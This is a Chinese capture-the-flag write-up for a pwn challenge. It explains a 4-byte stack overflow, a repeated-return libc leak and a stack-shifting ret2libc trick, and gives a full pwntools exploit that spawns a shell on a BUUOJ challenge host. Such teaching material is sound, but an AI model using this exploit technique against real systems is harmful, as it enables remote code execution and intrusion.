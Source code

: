 ![](1.png)
这是还没有进入vul函数时的栈环境，可以看到下面的f7de3ed5是libc之中的地址（_dl_fini是ld.so中的地址，而不是libc的）。我们溢出之后程序会打印出后面一部分地址的值，但是遇到空字节会截断。于是我们可以反复返回到vul函数的开头，你会发现每一次返回后，存返回地址的地址都会向后移4个字节。于是我们通过这种方法返回4次vul函数就能够成功越过上图ebp的0字节，通过printf获取libc地址。

有了libc之后，我们需要考虑如何执行system函数。要知道，我们只能溢出4个字节。别慌，我们有main函数。在进入vul函数时，memset只会将前20个字符清零，而对后面的不作处理，这就给了我们一丝机会。我们想把"\bin\sh"的地址写到返回地址的后面，肯定不能直接溢出，因为长度不够。所以我们干脆就返回到main函数中，要知道main函数也是占用一定的栈空间的，这样做可以让下一次执行vul函数时的栈向下压。这样原先写到栈上的"\bin\sh"地址就到了函数返回地址的后面去了。

![](2.png)
这个过程建议通过gdb调试一下加深理解。

exp:
```python
from pwn import *
from LibcSearcher import *

context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25990)
elf = ELF('./pwn')

# repeat 3 times of function vul to reach address of __libc_start_main + 241
io.sendafter(b'Welcome, my friend. What\'s your name?\n', cyclic(0x30))
io.sendafter(b'Hello', cyclic(0x2c) + p32(elf.symbols['vul']))
io.recvuntil(b'Hello')

io.send(cyclic(0x2c) + p32(elf.symbols['vul']))
io.sendafter(b'Hello', cyclic(0x2c) + p32(elf.symbols['vul']))
io.recvuntil(b'Hello')

io.send(cyclic(0x2c) + p32(elf.symbols['vul']))
io.sendafter(b'Hello', cyclic(0x2c) + p32(elf.symbols['vul']))
io.recvuntil(b'Hello')

# fourth time, we can get the address of libc
io.send(cyclic(0x2c) + p32(elf.symbols['vul']))

# gdb.attach(io)

io.recv()
rc = io.recv()
print(rc)
libc_start_main = u32(rc[-5:-1]) - 241
print(hex(libc_start_main))
libc = LibcSearcher('__libc_start_main', libc_start_main)

base = libc_start_main - libc.dump('__libc_start_main')
print(hex(base))
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
print('system: ' + hex(sys))
print('binsh: ' + hex(binsh))
# gdb.attach(io)
io.send(cyclic(0x20) + p32(binsh) * 3 +  p32(elf.symbols['main']))
# return to vul to adjust stack environment
io.sendafter(b'Welcome, my friend. What\'s your name?\n', cyclic(0x2c) + p32(sys))
io.sendafter(b'Hello', cyclic(0x2c) + p32(elf.symbols['vul']))
io.recvuntil(b'Hello')

io.send(cyclic(0x2c) + p32(sys))
io.sendafter(b'Hello', cyclic(0x2c) + p32(sys))

```